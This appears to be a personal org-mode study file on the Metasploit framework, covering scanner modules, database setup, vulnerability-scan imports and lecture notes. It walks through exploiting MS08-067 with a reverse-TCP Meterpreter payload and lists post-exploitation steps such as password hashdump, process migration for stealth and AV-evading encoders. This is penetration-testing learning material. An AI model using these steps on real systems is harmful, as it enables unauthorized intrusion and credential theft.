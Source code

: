 #+TAGS: sec_o


* Metasploit							      :sec_o:
GitHub: [[https://github.com/rapid7/metasploit-framework][github.com/rapid7/metaspoit-framework]]
* Cmds
[[file://home/crito/org/tech/cmds/msfconsole.org][msfconsole]]
[[file://home/crito/org/tech/cmds/msfvenom.org][msfvenom]]
* Scanners
mssql_ping - this scanner can be used to determine the tcp port and other details about a running MSSQL
smb_version - this will let you know if a machine has samba running and provide other machine information
ssh_version - this will determine the daemon and ssh version
ftp_version - this will version and fingerprint any running ftp server
anonymous - this will check if the ftp server allows anonymous login
snmp_enum - this will help in detection of devices that are using SNMP 
snmp_login - will use a word list, attempting to login to the device

* Related
- Armitage
- Cobalt Strike
* Description
* Usage
** Setting up the db
- makesure that postgres is running then:
#+BEGIN_SRC sh
msfdb init
#+END_SRC

** Vulnerability Scanners
*** NeXpose
- import scan
#+BEGIN_SRC sh
db_connect postgres:toor@127.0.0.1/msf3
db_import /tmp/host_101.xml
db_hosts -c address,svcs,vulns
#+END_SRC

- scan within msfconsole
#+BEGIN_SRC sh
db_connect postgres:toor@127.0.0.1/msf3
load nexpose
nexpose_connect dookie:s3cr3t@192.168.56.103
nexpose_scan 192.168.56.101
db_hosts -c address
#+END_SRC
Scanning from within the msfconsle whist convenient will produce a less complete scan

*** Nessus
- import scan
#+BEGIN_SRC sh
db_connect postgrs:toor@127.0.0.1/msf3
db_import /tmp/nessus_report_Host_101
#+END_SRC

*** OpenVAS
    
*** Speciality Vuln Scanners
vnc_none_auth - this will scan for VNC server configured without a password (rare as modern VNC servers require password for installation). Possible RealVNC4.1.1
open_x11 - this searches a range of hosts for X11 servers that allow connection without authentication

* Lecture
** [[https://www.youtube.com/watch?v%3DadSQyRPpiBw][Getting Started with Meatasploit - Nathan Sweaney]]
+ Command Line Access
  - msfconsole
  - msfvenom
- msfpayload, msfencode, msfcli have deprecated to msfvenom

+ Terminology
  - Modules
    - Exoplits - take advantage of vulnerability
    - Payloads - does something on the target sys
    - Encoders - bypass av and ids
    - Auxiliary - scanners that aid in discover of certain systems
    - Post - information gathering modules
  - Meterpreter 
    - advanced payload that runs in memory on the target
  - Plugins
    
+ The exploit
  - Target - Unpatched Windows XP Machine
  - Exploit - MS08-067 - MS Server Service Relative Path Stack corruption
  - Payload - Meterpreter
    
- Finding a Module
msf> search MS08-067
This will ouput a description of the exploit with name, disclousure date, Rank, Description

- Set the Module
msf> use exploit/windows/smb/ms08_067_netapi

- View options for module
msf> show options
This will show use the current settings for this module, and is exploit specific

- View possible targets this exploit works on
msf> show targets

- Set the remote host
msf> set RHOST 10.0.1.45

+ Payloads
  - Singles - Simple, self-contained code
    - example: add a user, execute a cmd
  - Stagers - Setup a network connection
    - Examples: TCP lictener on a port, Reverse TCP connection
  - Stages - Advanced payloads sent via stager
    - Examples: VNC server, command shell, Meterpreter

- set payload
> set payload windows/meterpreter/reverse_tcp
never use the default ports, security aware targets maybe monitoring these ports

- show options
> show options
this will now also set the options for the payload

- to run the exploit
> exploit

+ Meterpreter
  - Tons of cmds
    - help
    - OS cmds (cd, ls, pwd, cat, mv, rm)
    - Networking (arp, ifconfig, netstat, portfwd, route)
    - upload/download
    - Record keystrokes, screenshots, webcam, microphone
  - Additional plugins
    
meterpreter> sysinfo - give overview of the system (not much provided win7 or newer)
meterpreter> getpid - get the current pid of meterpreter
meterpreter> migrate 624 - migrate to another process that is less detectable

+ Auxiliary Modules
  - Sniffing
  - Scanning
  - Fuzzing

- Examples
  - tomcat_mgr_login
  - dir_listing
  - vnc_none_auth
  - http_ntlm
  - mssql_exec
    
- Non-Attack
  - scanner/ssh/ssh_version
  - scanner/mssql/mssql_login
  - scanner/ipmi/ipmi_version
  - scanner/http/http_version
  - scanner/snmp/snmp_login

* Tutorial
** [[https://www.youtube.com/watch?v%3D9J2ZrKHk6DQ][Introduction to metasploit - Adrian Crenshaw]]

-running sessions in msf can be viewed with: 
> sessions
this will list any active sessions

- to connect to a session
> sessions -i 1
this will connect us to session 1

- encoders
  - the x86/shikata_ga_nai
    
- windows bax with meterpreter
hashdump
  - this will dump all the user passwords
tspkg - this can be used in metasploit to cra
wdigest

* Books
[[file://home/crito/Documents/Security/Metasploit/Metasploit-The_Penetration_Testers_Guide.pdf][Metasploit - The Penetration Tester's Guide]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Penetration_Testing_Cookbook_2e.pdf][Metasploit Penetration Testing Cookbook]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Toolkit_for_Penetration_Testing.pdf][Metasploit Toolkit for Penetration Testing]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Guide.pdf][Metasploit Guide]]

* Links
